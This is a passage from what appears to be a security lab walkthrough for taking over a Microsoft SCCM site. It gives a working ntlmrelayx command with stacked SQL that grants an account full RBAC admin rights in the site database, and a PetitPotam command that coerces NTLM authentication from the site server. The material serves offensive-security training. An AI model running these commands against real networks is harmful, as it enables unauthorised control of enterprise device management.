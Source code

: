 Now let’s review the output:

- `SCCMHunter` resolves and converts the SID of our `TESTSUBJECT#` account, like we did with `SharpSCCM` in the previous step
- The stacked SQL queries do several things. Most importantly:
    - Insert our account (SID, LogonName, site code, etc) into the `RBAC_Admins` table
    - Insert extended permissions for our account in the `RBAC_ExtendedPermissions` table

Next, we’ll copy the stacked query for the next step.

 7. Configure ntlmrelayx to relay NTLM authentication to the site database

Next, we are going to configure `ntlmrelayx` to open a SOCKS proxy to the MSSQL service at the IP address of the site database server when incoming NTLM authentication is received via SMB:

1. In the open terminal window on `SPHERE#`, run `sudo su -` to escalate to root (where `#` is your student number).
2. In the root terminal, run the following, where `X` is your team/range number and `#` is your student number (e.g., `10.1.3.201` for team 3 student 1, `10.1.4.202` for team 4 student 2, etc.):

```
ntlmrelayx.py -smb2support -ts -ip 10.1.X.20# -t mssql://10.1.X.51 -q DECLARE @AdminID INT; USE CM_ps1; INSERT INTO RBAC_Admins (AdminSID, LogonName, IsGroup, IsDeleted, CreatedBy, CreatedDate, ModifiedBy, ModifiedDate, SourceSite) SELECT 0x0105000000000005150000001572341725B0DAB8D023E0875A040000, 'APERTURE\testsubject#', 0, 0, '', '', '', '', 'ps1' WHERE NOT EXISTS ( SELECT 1 FROM RBAC_Admins WHERE LogonName = 'APERTURE\testsubject#' ); SET @AdminID = (SELECT TOP 1 AdminID FROM RBAC_Admins WHERE LogonName = 'APERTURE\testsubject#'); INSERT INTO RBAC_ExtendedPermissions (AdminID, RoleID, ScopeID, ScopeTypeID) SELECT @AdminID, RoleID, ScopeID, ScopeTypeID FROM (VALUES  ('SMS0001R', 'SMS00ALL', 29), ('SMS0001R', 'SMS00001', 1), ('SMS0001R', 'SMS00004', 1) ) AS V(RoleID, ScopeID, ScopeTypeID) WHERE NOT EXISTS ( SELECT 1 FROM RBAC_ExtendedPermissions  WHERE AdminID = @AdminID  AND RoleID = V.RoleID  AND ScopeID = V.ScopeID AND ScopeTypeID = V.ScopeTypeID );
```

The output will show that an SMB service was started on TCP port 445 to accept inbound coerced NTLM authentication attempts and relay them to the MSSQL service on the site database server at `10.1.X.51` (where `X` is your team/range number).

 8. Coerce NTLM authentication from the primary site server to your relay server

Now we are going to use PetitPotam to coerce NTLM authentication from the `ATLAS$` domain computer account to our `ntlmrelayx` listener on `SPHERE#`, then relay it to the MSSQL service on the site database server and open a SOCKS proxy. Keep in mind that there are lots of other tools that target Windows RPC servers to coerce authentication from a computer account, such as `SpoolSample` and `Coercer`.

1. Open a second Bash tab (Ctrl + Shift + T) on your `SPHERE#` computer, leaving the first tab where `ntlmrelayx` is running open.
2. In the new terminal window, run the following, where `X` is your team/range number and `#` is your student number (e.g., `10.1.3.201` for team 3 student 1, `10.1.4.202` for team 4 student 2, etc.):

```
python3 ~/tools/PetitPotam/PetitPotam.py -u TESTSUBJECT# -p BlackMesa00# -d APERTURE.LOCAL 10.1.X.20# 10.1.X.50
```

3. In the other open terminal window where `ntlmrelayx` is still running, observe `Authenticating against mssql://10.1.X.51 as APERTURE/ATLAS$ SUCCEED` in the console output, where `X` is your team/range number.

